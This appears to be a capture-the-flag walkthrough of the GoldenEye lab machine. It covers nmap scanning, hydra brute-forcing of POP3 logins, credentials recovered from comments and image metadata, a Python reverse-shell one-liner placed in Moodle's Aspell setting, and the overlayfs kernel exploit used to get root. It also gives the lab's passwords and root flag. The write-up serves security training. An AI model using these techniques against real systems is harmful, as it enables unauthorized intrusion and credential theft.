





# GoldenEye

Bond, James Bond. A guided CTF.

# [Task 1] Intro & Enumeration

This room will be a guided challenge to hack the James Bond styled box and get root.

Credit to creosote for creating this VM.

So.. Lets get started!

## #2.2 - Use nmap to scan the network for all ports. How many ports are open?

*Hint: `nmap -p- -Pn <ip>`*

Nmap detects 4 open ports (make sure you use the `-p-` flag to discover all ports):

~~~
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: TOP PIPELINING UIDL STLS USER SASL(PLAIN) AUTH-RESP-CODE CAPA RESP-CODES
|_ssl-date: TLS randomness does not represent time
~~~

## #2.3 - Take a look on the website, take a dive into the source code too and remember to inspect all scripts!

Connecting to http://10.10.7.77 displays the following message:

~~~
Severnaya Auxiliary Control Station
****TOP SECRET ACCESS****
Accessing Server Identity
Server Name:....................
GOLDENEYE

User: UNKNOWN
Naviagate to /sev-home/ to login
~~~

Visiting the /sev-home/ location pops up an authentication box (Basic-Authentication), but we don't know the credentials.

Here is the source code of `index.html`:

```html
<html>
<head>
<title>GoldenEye Primary Admin Server</title>
<link rel="stylesheet" href="index.css">
</head>

	<span id="GoldenEyeText" class="typeing"></span><span class='blinker'>&#32;</span>

<script src="terminal.js"></script>
	
</html>
```

## #2.4 - Who needs to make sure they update their default password?

The message is stored in the `terminal.js` below javascript:

```javascript
var data = [
  {
    GoldenEyeText: "<span><br/>Severnaya Auxiliary Control Station<br/>****TOP SECRET ACCESS****<br/>Accessing Server Identity<br/>Server Name:....................<br/>GOLDENEYE<br/><br/>User: UNKNOWN<br/><span>Naviagate to /sev-home/ to login</span>"
  }
];

//
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//

var allElements = document.getElementsByClassName("typeing");
for (var j = 0; j < allElements.length; j++) {
  var currentElementId = allElements[j].id;
  var currentElementIdContent = data[0][currentElementId];
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;

 
  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `<span class='blinker'>&#32;</span>`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}
```

There is a hidden message in the comments of the above javascript, that discloses a username: `boris`.

## #2.5 - Whats their password?

The message in the javascript is also disclosing a password, that is encoded with HTML entity. Use [Cyberchef](https://gchq.github.io/CyberChef/) to decode the message `InvincibleHack3r`.

## #2.6 - Now go use those credentials and login to a part of the site.

Now, let's authenticate with `boris:InvincibleHack3r`. There is a hidden comment at the end of the page that reveals usernames:

~~~
$ curl -s --user boris:InvincibleHack3r http://10.10.7.77/sev-home/index.html | tail
 
Qualified GoldenEye Network Operator Supervisors: 
Natalya
Boris

 -->

</html>
~~~

# [Task 2] Its mail time...

Onto the next steps.. 

## #2.1 - Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable? 

Trying to connect to the pop3 service (port 55007) with the previous credentials does not seem to work:

~~~
$ telnet 10.10.7.77 55007
Trying 10.10.7.77...
Connected to 10.10.7.77.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
LIST
-ERR Unknown command.
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
quit
+OK Logging out
Connection closed by foreign host.
~~~

## #2.2 - If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

*Hint: pop3*

Let's try to find `natalya`'s pop3 password. I ran hydra during 10min+ with `rockyou.txt` before stopping and trying with another dictionnary:

~~~
$ hydra -l natalya -P /data/src/wordlists/fasttrack.txt pop3://10.10.7.77:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:02:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: natalya   password: bird
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:04:56
~~~

Can we also find boris' password?

~~~
$ hydra -l boris -P /data/src/wordlists/fasttrack.txt pop3://10.10.7.77:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 17:14:58
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 17:17:38
~~~

The expected answer is boris' pop3 password: `secret1!`

## #2.3 - Inspect port 55007, what services is configured to use this port?

According to Nmap, Dovecot POP3 is running on port 55007. We can connect using `telnet`.

## #2.4 - Login using that service and the credentials you found earlier.

Now that we have boris' and natalya's pop3 passwords, let's connect and list the messages:

~~~
$ telnet 10.10.7.77 55007
Trying 10.10.7.77...
Connected to 10.10.7.77.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER natalya
+OK
PASS bird
+OK Logged in.
~~~

## #2.5 - What can you find on this service?

Using the `LIST` command, we can list the messages (actually emails.)

~~~
LIST
+OK 2 messages:
1 631
2 1048
.
~~~

Answer: `emails`

## #2.6 - What user can break Boris' codes?

Reading Natalya's emails (`RETR` command), we can read that she keeps breaking Boris' codes:

~~~
RETR 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
  by ubuntu (Postfix) with ESMTP id D5EDA454B1
  for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
~~~

This information is also confirmed in Boris' second email:

~~~
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
  by ubuntu (Postfix) with ESMTP id C3F2B454B1
  for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
.
~~~

Answer: `natalya`

## #2.7 - Using the users you found on this service, find other users passwords


Natalya's 2nd email reveals credentials, as well as a virtual host and URL (severnaya-station.com/gnocertdir):

~~~
RETR 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
  by ubuntu (Postfix) with SMTP id 17C96454B1
  for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.


.
~~~

## #2.8 - Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.

*Hint: You will eventually get a xenia's password in plaintext.*

Not able to find xenia's password with `fasttrack.txt`. Too long for `rockyou.txt`


# [Task 3] GoldenEye Operators Training

Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

## #3.1 - If you remembered in some of the emails you discovered, there is the severnaya-station.com website. To get this working, you need up update your DNS records to reveal it.

**If you're on Linux edit your "/etc/hosts" file and add:**

**`<machines ip> severnaya-station.com`**

**If you're on Windows do the same but in the `c:\Windows\System32\Drivers\etc\hosts` file**

Let's add the following entry to our hosts file:

~~~
10.10.7.77  severnaya-station.com
~~~

## #3.2 - Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir

Now, let's browse http://severnaya-station.com/gnocertdir/.



## #3.3 - Try using the credentials you found earlier. Which user can you login as?

Using the credentials found for Xenia in Natalya's second email, we are able to login (http://severnaya-station.com/gnocertdir/login/index.php).

Answer: `xenia`

## #3.4 - Have a poke around the site. What other user can you find?

Navigating in the application, a new user is revealed in Xenia's messages:



Answer: `doak`

## #3.5 - What was this users password?

*Hint: pop3 + hydra*

Once again, let's run hydra to brute force doak's password:

~~~
$ hydra -l doak -P /data/src/wordlists/fasttrack.txt pop3://10.10.7.77:55007
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-24 18:24:29
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.7.77:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.7.77   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-24 18:26:52
~~~

Answer: `goat`

## #3.6 - Use this users credentials to go through all the services you have found to reveal more emails.

We are able to authenticate against the POP3 service to list doak's emails (there is only 1):

~~~
$ telnet 10.10.7.77 55007
Trying 10.10.7.77...
Connected to 10.10.7.77.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
~~~

## #3.7 - What is the next user you can find from doak?

*Hint: Emails, emails, emails..*

Let's retrive doak's unique email:

~~~
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
  by ubuntu (Postfix) with SMTP id 97DC24549D
  for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

.
~~~

Looks like we have doak's credentials to access the Moodle's web portal.

Answer: `dr_doak`

## #3.8 - What is this users password?

Answer: `4England!`

## #3.9 - Take a look at their files on the moodle (severnaya-station.com)

Using dr_doak's account, we can find a `s3cret.txt` file in `My profile > My private files`.

~~~
$ cat s3cret.txt 
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
~~~

It reveals that `admin` credentials have been found, and probably hidden in a picture located at `/dir007key/for-007.jpg`.

## #3.10 - Download the attachments and see if there are any hidden messages inside them?

*Hint: Use exiftool*

Let's download the file and analyze its metadata:

~~~
$ wget http://10.10.7.77/dir007key/for-007.jpg
$ /data/src/exiftool-12/exiftool for-007.jpg 
ExifTool Version Number         : 12.00
File Name                       : for-007.jpg
Directory                       : .
File Size                       : 15 kB
File Modification Date/Time     : 2018:04:25 02:40:02+02:00
File Access Date/Time           : 2020:06:24 18:39:55+02:00
File Inode Change Date/Time     : 2020:06:24 18:39:54+02:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066
~~~

The `Image Description` field contains a base64 encoded string which is likely the `admin`'s password:

~~~
$ echo "eFdpbnRlcjE5OTV4IQ==" | base64 -d
xWinter1995x!
~~~

## #3.11 - Using the information you found in the last task, login with the newly found user.

We can now login as `admin` to the Moodle application. We have a different interface, with more privileges.



## #3.12 - As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.

**Take a look into Aspell, the spell checker plugin.**

*Hint: `Settings->Aspell->Path to aspell` field, add your code to be executed. Then create a new page and "spell check it".*

Open a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

Now, from the Configuration panel, enter `spell` in the search. There are 2 settings to modify so that it works:

* Spell engine: PSpellShell
* Path to aspell: your reverse shell



I used a python shell instead of the one set by default.

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.54",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

Go to `Navigation > My profile > Blog > Add a new entry` and clik on the "Toggle spell checker" icon.



You should now have a reverse shell:

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.7.77.
Ncat: Connection from 10.10.7.77:59597.
bash: cannot set terminal process group (1054): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 
~~~

# [Task 4] Privilege Escalation

**Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.**

## #4.1  

**Download the [linuxprivchecker](https://gist.githubusercontent.com/sh1n0b1/e2e1a5f63fbec3706123/raw/1bd5f119a7f1e2d4c9328d78686ae79b4e1642f7/linuxprivchecker.py) to enumerate installed development tools.**

**To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:**

* **Download the linuxprivchecker file locally**
* **Navigate to the file on your file system**
* **Do: `python -m SimpleHTTPServer 1337` (leave this running)**
* **On the VM you can now do: `wget <your IP>/<file>.py`**

**OR**

**Enumerate the machine manually.**

## #4.2 - Whats the kernel version?

*Hint: `uname -a`*

The kernel is outdated:

~~~
$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

Answer: `3.13.0-32-generic`

## #4.3

**This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:**

* **Create new user and mount namespace using `clone` with `CLONE_NEWUSER|CLONE_NEWNS` flags.**
* **Mount an overlayfs using `/bin` as lower filesystem, some temporary directories as upper and work directory.**
* **Overlayfs mount would only be visible within user namespace, so let `namespace process change CWD` to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.**
* **Make `su` on overlayfs world writable without changing the owner**
* **Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the `SetgidDirectoryPrivilegeEscalation` exploit.**
* **Execute the modified su binary**

**You can download the exploit from here: https://www.exploit-db.com/exploits/37292**

Let's search for Overlayfs related exploits on kernel 3.13:

~~~
$ /data/src/exploitdb/searchsploit kernel 3.13 overlayfs
[i] Found (#1): /data/src/exploitdb/files_exploits.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#1): /data/src/exploitdb/files_shellcodes.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37293.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
$ /data/src/exploitdb/searchsploit -m 37292
~~~

Transfer the exploit that you have downloaded (`37292.c`) to the server.

## #4.4

**Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!**

**What development tools are installed on the machine?**

*Hint: Its a VERY simple fix. You're only changing 1 character...*

Let's try to compile the exploit:

~~~
www-data@ubuntu:/tmp$ gcc 37292.c -o exploit
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
~~~

`gcc` is not installed, but `cc` is available:

~~~
www-data@ubuntu:/tmp$ which cc
/usr/bin/cc
~~~

All we need to do is to replace `gcc` by `cc` in the exploit:

~~~
www-data@ubuntu:/tmp$ sed -i "s/gcc/cc/g" 37292.c
~~~

And to compile it with `cc`:

~~~
www-data@ubuntu:/tmp$ cc 37292.c -o exploit
cc 37292.c -o exploit
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
~~~

The compilation generates warning message, but non is blocking. Let's run the exploit:

~~~
www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
~~~

## #4.5 - What is the root flag?

*Hint: This is located in the root user folder.*

The flag is in `/root/.flag.txt`:

~~~
# cd /root
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
~~~

Visiting the last URL shows a video with extracts from James Bond, along with a congratulations message:

~~~
$ curl -s http://severnaya-station.com/006-final/xvf7-flag/
<html>
<head>

<link rel="stylesheet" href="index.css">
</head>


<video poster="val.jpg" id="bgvid" playsinline autoplay muted loop>

<source src="key.webm" type="video/webm">


</video>
<div id="golden">
<h1>Flag Captured</h1>
<p>Congrats! ******************************* </p>
<p>You've captured the codes! And stopped Alec Trevelyan from his indestructible vengeance!!!!</p>
<p>****************************************</p>
</div>


<script src="index.js"></script>
</html>
~~~

Root flag: `568628e0d993b1973adc718237da6e93`
